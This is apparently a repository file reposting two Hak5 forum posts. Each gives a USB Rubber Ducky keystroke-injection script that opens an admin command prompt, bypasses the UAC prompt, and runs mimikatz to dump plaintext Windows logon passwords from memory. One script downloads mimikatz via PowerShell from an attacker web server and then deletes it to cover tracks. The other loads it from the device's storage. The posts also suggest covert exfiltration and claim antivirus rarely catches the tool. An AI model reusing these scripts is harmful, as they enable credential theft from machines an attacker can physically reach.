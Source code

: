 The following payload was written by redmeatuk. 

The payload's forum is located here: 

http://forums.hak5.org/index.php?/topic/29657-payload-ducky-script-using-mimikatz-to-dump-passwords-from-memory/

# From this point on is a copy paste of redmeatuk's post in the forum. 
Hello all,

 

This is a Ducky script I knocked up to use the wonderful mimikatz tool. This tool allows you to dump hashes including the clear text passwords for wdigest from memory.

 

http://blog.gentilki...mikatz/minidump

http://www.room362.c...rds-with-a.html

 

Requirements -:

 

- Webserver to host Mimikatz binary for your architecture (I tested this on Windows 7 Home Premium 64-bit) you need the ones in the 'alpha' subfolder of the zip/7z file for your architecture

- Local user needs to be an administrator account/privs

 

What does it do ?

 

1. It spawns a command shell with administrator privileges

2. It downloads mimikatz from a webserver using powershell

3. Using mimikatz to dump wdigest passwords from memory

4. Cleans up by deleting the binaries it downloaded

 

It could be improved by using sneaky data exfil techniques to transfer the data encrypted offsite e.g. socat, ncat SSL, stunnel etc If you have a firmware installed that lets you store files you could copy the output to the SD card. Also mimikatz file could be encoded and run through powershell to generate the executable instead of 'wget'ing' the file.

 

You may need to adjust timings in this script to play nice on your machine(s).

 

Script -:

```
REM mimikatz ducky script to dump local wdigest passwords from memory using mimikatz (local user needs to be an administrator/have admin privs)
DELAY 3000
CONTROL ESCAPE
DELAY 1000
STRING cmd
DELAY 1000
CTRL-SHIFT ENTER
DELAY 1000
ALT y
DELAY 300
ENTER
STRING powershell (new-object System.Net.WebClient).DownloadFile('http://<replace me with webserver ip/host>/mimikatz.exe','%TEMP%\mimikatz.exe')
DELAY 300
ENTER
DELAY 3000
STRING %TEMP%\mimikatz.exe
DELAY 300
ENTER
DELAY 3000
STRING privilege::debug
DELAY 300
ENTER
DELAY 1000
STRING sekurlsa::logonPasswords full
DELAY 300
ENTER
DELAY 1000
STRING exit
DELAY 300
ENTER
DELAY 100
STRING del %TEMP%\mimikatz.exe
DELAY 300
ENTER
```

# Now, a similar payload by shutin using a ducky EXE running script, again copy paste. 

Woo! Finally posting my own working payload! Thanks to overwraith and readmeatuk for their base code that I just tied together. This basically does exactly what readmeatuk's code does except you won't need an internet connection.

Requirements:

1) Twin duck firmware or whatever it's called that lets you have a usb storage as well as firing inject.bin upon insertion.

2) mimikatz.exe (either 32bit or 64 bit depending on target environment) placed at the root of that DUCKY drive (drive name MUST be "DUCKY"). Get it here: http://blog.gentilkiwi.com/mimikatz and use the exe from the "alpha" subdirectory

 

Notes: I tried to do it with procdump but it takes a LONG time to write out the 36meg output file to the card and the window for procdump basically freezes and you have to forcibly kill it. You could probably write the .dmp file to a local disk and then copy it to the ducky but it's still going to take awhile. I don't think that many AV programs are looking for mimikatz so it's fairly safe,.

 

This script could be optimized a little, it's a bit slow and it leaves two windows open. You want to leave the mimikatz window open though because after this f$#%^$ker executes you'll be staring at plaintext passwords for the logged on users!@!$#@
```
REM Author: shutin who just tied two other authors together: 
REM overwraith for the exe running stuff and redmeatuk who brought mimikatz to the party
REM Name: Runmimikatz.txt
DEFAULT_DELAY 75
DELAY 3000
REM get a cmd prompt this way because it's admin and we need that for mimikatz
CONTROL ESCAPE
DELAY 1000
STRING cmd
DELAY 1000
REM the admin part booyah
CTRL-SHIFT ENTER
DELAY 1000
ALT y
DELAY 300
ENTER

REM Change directories because System32 appears to be protected. 
STRING CD %TEMP%
ENTER

REM Make batch file that waits for SD card to mount. 
REM Delete batch file if already exists
STRING erase /Q DuckyWait.bat
ENTER
STRING copy con DuckyWait.bat
ENTER
REM DuckyWait.bat contents
STRING :while1
ENTER
STRING for /f %%d in ('wmic volume get driveletter^, label ^| findstr "DUCKY"') do set myd=%%d
ENTER
STRING if Exist %myd% (
ENTER
STRING goto break
ENTER
STRING )
ENTER
STRING timeout /t 30
ENTER
STRING goto while1
ENTER
STRING :break
ENTER
REM 
REM FINALLY ACTUALLY RUN AN EXE 
STRING START %myd%\mimikatz.exe
ENTER
CONTROL z
ENTER
STRING DuckyWait.bat
ENTER
DELAY 1000
ENTER
DELAY 3000
STRING privilege::debug
DELAY 300
ENTER
DELAY 1000
STRING sekurlsa::logonPasswords full
DELAY 300
ENTER
```